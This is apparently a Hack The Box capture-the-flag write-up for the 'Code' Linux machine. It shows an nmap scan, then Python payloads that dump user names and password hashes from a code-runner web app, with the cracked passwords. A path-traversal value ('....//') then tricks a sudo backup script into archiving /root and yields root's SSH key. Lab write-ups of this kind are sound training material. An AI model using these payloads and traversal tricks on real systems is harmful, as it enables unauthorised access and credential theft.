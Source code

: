 ```yaml
---
title: code.htb
date: 2025-03-21 23:02:00
categories: [hackthebox]
tags: [linux, ctf, htb, easy]
---
```


# Code hackthebox writeup

Code is an easy linux machine on hackthebox.

As always we start with a nmap scan.
## nmap
```bash
nmap -sC -sV 10.10.11.62 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-22 20:39 CET
Nmap scan report for 10.10.11.62
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 193
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid Request Line &#x27;Invalid HTTP request line: &#x27;&#x27;&#x27;
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.95%I=7%D=3/22%Time=67DF1215%P=aarch64-unknown-linux-gn
SF:u%r(GenericLines,11E,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:
SF:\x20close\r\nContent-Type:\x20text/html\r\nContent-Length:\x20193\r\n\r
SF:\n<html>\n\x20\x20<head>\n\x20\x20\x20\x20<title>Bad\x20Request</title>
SF:\n\x20\x20</head>\n\x20\x20<body>\n\x20\x20\x20\x20<h1><p>Bad\x20Reques
SF:t</p></h1>\n\x20\x20\x20\x20Invalid\x20Request\x20Line\x20&#x27;Invalid
SF:\x20HTTP\x20request\x20line:\x20&#x27;&#x27;&#x27;\n\x20\x20</body>\n</
SF:html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Appearently only two ports are open. I also performed a scan on all ports plus a scan of udp ports. Only two ports came up. The attack vector is most likeley on port 5000.

### Port 5000
An application which executes python code runs on port 5000. It is not possible to execute shell commands since many python elements such as import or the execute keywoard are filtered in the backend thus making it impossible to execute code and get a reverse shell. After much fuzzing i found that we can execute database payloads, such as.
```python
print([u.username for u in db.session.query(User).all()])
print([u.password for u in db.session.query(User).all()])
```
The first payload gives us possible usernames and the second payload gives us the hashes of passwords. Those hashes can be easily cracked.

### Credentials

```
Usernames:
['development', 'martin'] 

Passwords:
development
nafeelswordsmaster
```

### User Shell
We can a shell as the user martin. The flag is not available here which means we have first to pivot to another user:
```
martin@code:~$ whoami
martin
```

### priv esc
running sudo -l we see there is a script which we can run using sudo 
```bash
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
martin@code:~$ cat /usr/bin/backy.sh 
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

We can use this script to read the root folder with the following task.json as the parameter which is used by the script

```bash
{  
    "destination": "/home/martin/backups/",  
    "multiprocessing": true,  
    "verbose_log": false,  
    "directories_to_archive": [  
        "/home/....//....//root"  
    ]  
}
```
We run the script using the command sudo /usr/bin/backy.sh task.json

```bash
martin@code:~/backups$ ls
code_home_app-production_app_2024_August.tar.bz2  code_home_.._.._root_2025_March.tar.bz2  root  task.json
```

The root folder contains a private key which can be used to login as the root user using ssh.

```bash
root@code:/home/app-production# cat user.txt 
12f3c56616

root@code:~# whoami
root
root@code:~# cat root.txt 
56a259fd

```

Unlinke many easy boxes this was indeed an easy box. You need to run nmap to discover the webservice running on port 5000. Afterwards it's prettty obvious there has to be some kind of shell injection which allowed us to read the database. For the root account we need to leverage the custom script which can be used with sudo privileges which allows us to read the root folder. 